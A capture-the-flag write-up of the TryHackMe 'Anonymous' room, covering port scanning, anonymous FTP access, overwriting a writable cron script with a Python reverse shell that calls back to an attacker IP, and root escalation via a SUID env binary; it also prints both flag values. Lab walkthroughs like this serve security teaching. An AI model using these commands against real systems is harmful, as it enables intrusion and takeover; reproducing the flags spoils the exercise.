 ```yaml
---
title: "Anonymous - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.png
excerpt: "Writeup for the Anonymous on TryHackMe"
---
```


[TryHackMe | Anonymous](https://tryhackme.com/room/anonymous)

Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
Acquiring both flags will require some basic knowledge of Linux and
privilege escalation methods.

<div className="Image__Medium">
  <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a6/Anonymous_emblem.svg/1024px-Anonymous_emblem.svg.png" alt="blog_image" />
</div>

For more information on Linux, check out [Learn Linux](https://tryhackme.com/room/zthlinux)

---

### #1 Enumerate the machine. How many ports are open?

```bash
➜  TryHackMe nmap -A -vv 10.10.131.140
```

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #2 What service is running on port 21?

```bash
21/tcp  open  ftp         vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
```

```bash
ftp
```

### #3 What service is running on ports 139 and 445?

```bash
smb
```

### #4 There's a share on the user's computer. What's it called?

<div className="Image__Medium">
  <img src="https://imgur.com/4X6K5lM.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/5Aznrzp.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe smbclient -L  10.10.131.140
Enter WORKGROUP\kali password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```bash
pics
```

### #5 user.txt

Let's go to the ftp using the anonymous login

```bash
➜  TryHackMe ftp 10.10.215.153
Connected to 10.10.215.153.
220 NamelessOne FTP Server!
Name (10.10.215.153:kali): anonymous
331 Please specify the password.
Password: no password there
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 May 17 21:30 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 May 14 14:52 clean.sh
-rw-rw-r--    1 1000     1000           86 May 17 22:55 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
```

Let's put a reverse shell in the ftp shall we ? c:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

You can use whatever you want I will use the python reverse shell.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.228",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Rename the payload 'clean.sh' and put it in the ftp

```bash
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
226 bytes sent in 0.00 secs (2.3427 MB/s)
```

Now let's wait the ftp server to execute the payload

```bash
➜  TryHackMe nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.215.153] 37426
/bin/sh: 0: cant access tty; job control turned off
$ ls
pics
user.txt
$ cat user.txt
90d6f992585815ff991e68748c414740
```

### #6 root.txt

```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
$ ./env /bin/sh -p
/bin/sh: 4: ./env: not found
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
$ id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

[All the suid shell on GTFOBins | GTFOBins](https://gtfobins.github.io/#+suid)

```bash
$ cd /root/
cd /root/
$ ls
ls
root.txt
$ cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```


